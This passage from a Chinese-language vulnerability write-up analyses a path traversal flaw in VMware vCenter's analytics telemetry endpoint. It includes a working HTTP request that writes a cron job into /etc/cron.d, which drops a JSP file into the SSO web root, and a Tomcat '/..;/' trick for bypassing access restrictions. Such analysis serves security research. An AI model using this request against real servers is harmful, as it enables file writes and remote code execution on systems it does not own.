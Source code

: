 随后调用 `LogTelemetryService` 类 `processTelemetry` 方法，利用 log4j 写日志文件至 `/var/log/vmware/analytics/prod/` 目录，文件内容为 POST 请求体数据：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081643607.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081643607.png-water_print")

日志文件存储在 `/var/log/vmware/analytics/prod/_c<collector id>_i<instance name>.json`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081654959.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081654959.png-water_print")

并且因为 filename 中同时包含 collectorId 和 collectorInstanceId，所以可以在路径遍历中添加 `../` 字符，在另一个文件夹中随意创建一个文件的情况。但是，在 Linux 系统中，如下面的路径中含有不存在的文件夹，在创建文件时会报错：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>/var/log/vmware/analytics/prod/_c_i/../../../../../../tmp/POC<br>``` |

如何远程创建该临时文件内，经过可以在 `_i` 参数前加一个斜杠，目录会被创建。之后就可以通过目录拼接的形式进行文件写入。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081719338.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205081719338.png-water_print")

目前已经可以控制任意文件写入，但是没有办法控制文件后缀 `.json`，对于 linux 的机器可以写入计划任务来执行写 shell 的操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>POST /analytics/telemetry/ph-stg/api/hyper/send?_c=&_i=/../../../../../../etc/cron.d/POC HTTP/1.1<br>Host: IP<br>Content-Type: application/json<br>Content-Length: 144<br><br>* * * * * root echo PCUgICAgICAgIG91dC5wcmludGxuKCJIZWxsb1dvcmxkIik7ICAgICAgJT4=\|base64 -d >/usr/lib/vmware-sso/vmware-sts/webapps/ROOT/hello.jsp<br>``` |

待定时任务启动后，可在 `https://localhost/idm/..;/hello.jsp` 可以访问到 shell。

(这里的`/..;/`是因为 Tomcat 会将`/..;/`视作`/../`，可以利用该特性绕过 vCenter 某些版本的 `rhttpproxy` 的访问限制)。

##### [](#dataappagentcontroller-%E6%BC%8F%E6%B4%9E)DataAppAgentController 漏洞

官方提供的 POC 中还涉及到一个接口：`/analytics/telemetry/ph/api/dataapp/agent`，而在新版本的代码中，已经将端点： `/dataapp/agent` 相关代码全部删除，因此确定漏洞的位置。
